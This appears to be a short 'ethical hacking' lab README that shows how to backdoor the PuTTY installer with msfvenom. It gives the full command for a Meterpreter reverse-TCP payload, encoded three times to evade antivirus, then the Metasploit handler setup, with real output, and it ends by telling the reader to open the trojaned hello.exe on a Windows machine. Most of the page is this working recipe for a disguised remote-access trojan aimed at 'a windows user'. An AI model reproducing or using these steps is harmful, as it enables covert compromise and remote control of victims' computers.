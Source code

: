 # Secu_03
### `Ethical hacking`
we are going to use a trapped file to send to a windows user.
`Lab: backdoor`

* Install putty<hr>
program for remote connections, 
download here <a href="https://www.chiark.greenend.org.uk/~sgtatham/putty/latest.html">https://www.chiark.greenend.org.uk/~sgtatham/putty/latest.html</a>
<hr>
we will link our putty.exe file to our backdoor.

```terminal
msfvenom -a x86 -x /home/samglish/Téléchargements/putty.exe -k -p windows/meterpreter/reverse_tcp lhost=your_Ip_adress lport=3232 -e x86/shikata_ga_nai -i 3 -b "\x00" -f exe -o hello.exe 
```
I explain to you
* msfvenom a metasploit module that will help us to :
<p>--plateform windows, create a backdoor for windows platform</p>
<p>x86/shikata_ga_nai -i 3 -b "\x00", the module that will help us encode our file so as not to be detected by the antivirus, we encoded it 3 times.</p>
<p>the output file will be hello.exe </p>

`output`
```terminal
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
Found 1 compatible encoders
Attempting to encode payload with 3 iterations of x86/shikata_ga_nai
x86/shikata_ga_nai succeeded with size 381 (iteration=0)
x86/shikata_ga_nai succeeded with size 408 (iteration=1)
x86/shikata_ga_nai succeeded with size 435 (iteration=2)
x86/shikata_ga_nai chosen with final size 435
Payload size: 435 bytes
Final size of exe file: 1889792 bytes
Saved as: hello.exe
```
let's check if it's the windows exectable.
```terminal
file hello.exe
```
output:
```output
hello.exe: PE32 executable (GUI) Intel 80386, for MS Windows
```
now we will head to metasploit.
```terminal
msfconsole
```
output:
```output
msf6 > use exploit/multi/handler
```
after
```terminal
[*] Using configured payload generic/shell_reverse_tcp
msf6 exploit(multi/handler) >set payload windows/meterpreter/reverse_tcp
```
output:
```output
payload => windows/meterpreter/reverse_tcp
```
```terminal
msf6 exploit(multi/handler) > set lhost adress_ip
```
```terminal
msf6 exploit(multi/handler) > set lport 3232
```
`now we launch exploit`
```terminal
msf6 exploit(multi/handler) > exploit
```
```terminal
[*] Started reverse TCP handler on your_ip_adress:3232 
```
All you have to do is copy the hello.exe file and open it on a Windows system.